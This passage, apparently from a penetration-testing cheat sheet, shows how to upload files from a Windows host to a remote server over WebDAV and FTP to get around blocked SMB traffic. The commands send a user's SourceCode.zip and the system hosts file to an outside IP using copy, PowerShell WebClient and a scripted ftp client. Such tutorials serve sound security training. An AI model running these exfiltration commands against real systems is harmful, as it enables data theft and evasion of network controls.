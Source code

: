 ### SMB Uploads

Companies usually allow outbound HTTP/HTTPS but block SMB (TCP/445). Alternative is to run SMB over HTTP with WebDAV.

**WebDAV Setup:**
```bash
# Install WebDAV modules
sudo pip3 install wsgidav cheroot

# Start WebDAV server
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

**Connect to WebDAV Share:**
```cmd
# Connect to WebDAV
dir \\192.168.49.128\DavWWWRoot

# Upload files
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\sharefolder\
```

**⚠️ Note:** `DavWWWRoot` is a special keyword recognized by Windows Shell for WebDAV root connection.

### FTP Uploads

**Setup FTP Server with Write Access:**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**Upload via PowerShell:**
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

**Upload via FTP Client:**
```cmd
# Create upload command file
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt

# Execute upload
ftp -v -n -s:ftpcommand.txt
```

## Key Takeaways

